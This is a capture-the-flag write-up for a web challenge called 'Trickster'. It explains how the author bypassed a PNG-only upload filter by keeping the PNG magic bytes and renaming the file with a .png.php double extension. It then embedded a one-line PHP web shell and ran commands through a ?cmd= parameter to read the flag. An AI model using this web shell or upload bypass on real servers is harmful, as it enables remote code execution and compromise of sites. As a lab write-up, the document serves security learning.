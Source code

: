 # Trickster - Web
![image](https://github.com/JosephB10/CTF-Writeups/assets/105746932/30fc0bfe-3ebd-4de5-9c2d-032677985a76)
## Hints
- None
## Solution
You are given a website with a file uploader and a note that you can only upload PNG pictures for processing.
<br><br>Without using a directory fuzzer, or at least checking `robots.txt` this CTF is kinda obscure. (I thought fuzzing was generally out of scope.)

The Solution.
- Pick any PNG file and capture the POST with burpsuite
- Delete everything behind the `PNG` written in the data dump 
  - This leaves the PNG header magic bytes at the top of the file
  - Which is all the filter checks for
- Change the title of the .PNG file to `something.png.php` 
  - This satisfies the requirement to have .png in the name, but will execute as .php
- Add `<?php echo system($_GET['cmd']); ?>` to the body of the message where the picture information would normally be
  - This inputs php code that you can later call on for a RCE
- Then navigate to the upload page and add `.../uploads/something.png.php?cmd=   `
  - Now you can enter any command you want after cmd and the code in your picture will execute it
  - I knew we were in `/var/www/html/uploads` because of some errors that were thrown when I was exploring earlier
  - `ls /var/www/html`    -->  Came back with
    -  ` GAZWIMLEGU2DQ.txt index.phpinstructions.txtrobots.txt uploads uploads`
  - `cat /var/www/html GAZWIMLEGU2DQ.txt` gave the flag

<br><br>
## Random Notes
Once I found out I had code execution I tried to get reverse shells (a php shell, and then a python shell with the RCE) but it didn't work
- They would hang the program but not actually reach my machine
 

<br>I probably would've solved this problem within the first hour if I had fuzzed the directories
- However I thought this was out of scope and so the only way I found the solution was randomly trying to reach `/uploads` in a moment of desperation
 
<br>Also once I had RCE there was a directory called `challenge` which I didn't have access to as user `www-data`
- So I spent some time trying to find a way to elevate my privileges and/or throw a rev shell so I could get access to that directory
- Turns out the weirdly named file in `/var/www/html` was the flag
 
<br>Learned about `polyglot` files and spent a lot of time researching png/phar combo's
- That way I could upload a valid png file with a php executable code tacked on to the end of it
- and there were multiple processing calls that could've been in the source code and would've executed the phar stub
- Which made sense with the way the CTF was worded
 
<br>Also learned about `multipart form-data` vulnerabilities 
- Trying to get these two solutions to work cost me a LOT of time



<br>
A useful resource for upload form attacks
https://exploit-notes.hdks.org/exploit/web/security-risk/file-upload-attack/
